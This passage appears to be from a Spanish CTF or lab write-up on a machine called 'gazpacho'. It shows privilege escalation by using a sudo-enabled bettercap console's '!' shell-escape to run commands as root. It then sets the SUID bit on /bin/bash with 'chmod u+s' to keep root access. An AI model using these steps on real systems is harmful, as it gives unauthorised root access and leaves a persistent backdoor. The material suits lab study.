 Investiguemos un poco sobre este binario:

| **Bettercap** |
|:-----------:|
| *Bettercap es una herramienta poderosa y versátil para realizar ataques de red y pruebas de seguridad ofensivas. Se utiliza principalmente para sniffing, manipulación de tráfico en tiempo real, ataques Man-in-the-Middle (MITM) y mucho más. Bettercap es como el cuchillo suizo del pentester de redes.* |

<br>

Aquí puedes ver la documentación de la herramienta:
* <a href="https://www.bettercap.org/legacy/" target="_blank">BetterCap - Documentation</a>

Al ejecutar el binario, entraremos en una consola de comandos:
```bash
tomate@gazpacho:~$ sudo bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

192.168.10.0/24 > 192.168.10.150  » [00:52:15] [sys.log] [war] Could not find mac for
```

Y si usamos el comando **help**, veremos una forma de escalar privilegios:
```bash
192.168.10.0/24 > 192.168.10.150  » help

           help MODULE : List available commands or show module specific help if no module name is provided.
                active : Show information about active modules.
                  quit : Close the session and exit.
         sleep SECONDS : Sleep for the given amount of seconds.
              get NAME : Get the value of variable NAME, use * alone for all, or NAME* as a wildcard.
        set NAME VALUE : Set the VALUE of variable NAME.
  read VARIABLE PROMPT : Show a PROMPT to ask the user for input that will be saved inside VARIABLE.
                 clear : Clear the screen.
        include CAPLET : Load and run this caplet in the current session.
             ! COMMAND : Execute a shell command and print its output.
        alias MAC NAME : Assign an alias to a given endpoint given its MAC address.
...
```
Podemos ejecutar comandos desde esta terminal y, como la ejecutamos como **Root**, entonces, todo lo que ejecutemos, tendrá privilegios máximos.

Veamos qué usuario somos dentro de esta terminal:
```bash
192.168.10.0/24 > 192.168.10.150  » !whoami
root
```
Funciona bien.

Asignémosle **permisos SUID** a la **Bash**, para poder ejecutarla con privilegios de **Root** desde cualquier usuario:
```bash
192.168.10.0/24 > 192.168.10.150  » !chmod u+s /bin/bash

192.168.10.0/24 > 192.168.10.150  » exit
tomate@gazpacho:~$
```
